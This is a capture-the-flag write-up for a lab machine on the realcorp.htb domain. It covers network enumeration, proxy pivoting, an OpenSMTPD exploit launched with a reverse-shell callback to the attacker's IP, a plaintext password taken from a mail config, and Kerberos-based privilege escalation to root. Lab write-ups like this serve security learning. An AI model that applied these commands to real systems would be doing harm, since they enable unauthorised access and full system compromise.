# <p style="color:RED">Information Gathering </p>

---

## <p style="color:Green">Nmap scan </p> 


```
sudo nmap -sC -sV 10.10.10.224 -v
```


```
22/tcp   open   ssh          OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 8d:dd:18:10:e5:7b:b0:da:a3:fa:14:37:a7:52:7a:9c (RSA)
|   256 f6:a9:2e:57:f8:18:b6:f4:ee:03:41:27:1e:1f:93:99 (ECDSA)
|_  256 04:74:dd:68:79:f4:22:78:d8:ce:dd:8b:3e:8c:76:3b (ED25519)
53/tcp   open   domain       ISC BIND 9.11.20 (RedHat Enterprise Linux 8)
| dns-nsid: 
|_  bind.version: 9.11.20-RedHat-9.11.20-5.el8
88/tcp   open   kerberos-sec MIT Kerberos (server time: 2021-06-18 13:07:47Z)
3128/tcp open   http-proxy   Squid http proxy 4.11
|_http-server-header: squid/4.11
|_http-title: ERROR: The requested URL could not be retrieved
9090/tcp closed zeus-admin
```

We have 3 ports open:

- 22/ssh : OpenSSH 8.0

- 53/dns : ISC BIND 9.11.20 

- 88/kerberos : MIT Kerberos


## <p style="color:Green">Web Server </p> 





We get a username and two domain names !

```
j.nakazawa@realcorp.htb
srv01.realcorp.htb
```

Let's add them  to `/etc/hosts`





Nothing interesting, let's move on


## <p style="color:Green">Kerberos </p> 

We have a valid username and a domain! let's try to dump his KRBASREP5 hash

```
sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py realcorp.htb/j.nakazawa -no-pass
```



But sadly it's uncrackable, let's move on


## <p style="color:Green"> DNS ENUM</p> 

This machine has a DNS and proxy service running, we can guess that it's routing trafics to other machines

Let's find out


```
dnsenum --enum --dnsserver 10.10.10.224 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt realcorp.htb
```





We have more IPs and domains, but we can't access anyone of them.

We'll be using proxychains ( Dynamic chain )

We'll be adding these 3 lines to `/etc/proxychains.conf` and the domains to `/etc/hosts`


```
http 10.10.10.224   3128
http 127.0.0.1      3128
http 10.197.243.77  3128
```


# <p style="color:RED">Foothold </p>

---


Let's first run nmap on the new IPs


```
sudo proxychains4 -f /etc/proxychains.conf nmap -Pn -sT -v 10.197.243.31
```
```
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
464/tcp  open  kpasswd5
749/tcp  open  kerberos-adm
3128/tcp open  squid-http
```

There is a webserver running, let's try to access it

```
proxychains4 -f /etc/proxychains.conf firefox
```




Since this ip is mapped to  `wpad.realcorp.htb`

We can now get the web proxy auto discovery config (wpad.dat)

```
proxychains4 -f /etc/proxychains.conf curl http://wpad.realcorp.htb/wpad.dat
```




We have another network IP `10.241.251.0`


```
proxychains4 -f /etc/proxychains.conf nmap 10.241.251.0/24 -Pn 
```

After waiting a bit, we can get an active host 10.241.251.113


```
proxychains4 -f /etc/proxychains.conf nmap 10.241.251.113 -sV -Pn
```


```bash
PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
```


We can grab an exploit from exploitdb

> I'll be using this exploit : https://github.com/QTranspose/CVE-2020-7247-exploit/blob/main/exploit.py


```
proxychains4 -f /etc/proxychains.conf python3 exp.py 10.241.251.113 25 10.10.14.68 9001 j.nakazawa@realcorp.htb
```




And we're on the box

---

# <p style="color:RED"> User Flag </p>

---

An interesting file in the user home directory


```
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint	C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp

```
We found a password, but i couldn't ssh into the box with it

The trick is to generate a tgs kk
 to ssh into the box

But first, we need to edit `/etc/krb5.conf`



> I was stuck at this part for a while trying to figure out what i did wrong, until i gave up and asked someone for a hint `dns_canonicalize_hostname = false` was needed

And let's generate the ticket 





Let's try to ssh as j.nakazawa


---

# <p style="color:RED">Root Flag </p>

---


After running LinPEAS, we can see that there a cronjob



```bash
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log

```
It copies everything from `/var/log/squid/` to `/home/admin`

So the trick is to create `.k5login` in `/var/log/squid` so it gets copied to the admin's user home directory and we ssh into it

> 



Now we're the admin user


Enumerating a bit, we can find someone interesting  `/etc/krb5.keytab`

> It's extracted from the KDC database of "principals" and which contain the encryption key for a service or a host.





Let's open the kadmin console 

```
kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
```

then  add the root as a principal to the database

> https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-admin/Adding-or-Modifying-Principals.html

```
add_principal root@REALCORP.HTB
```



Now we can get login as root with `ksu`

> https://linux.die.net/man/1/ksu




And we rooted the box!


## Thanks for reading hope you enjoyed it!


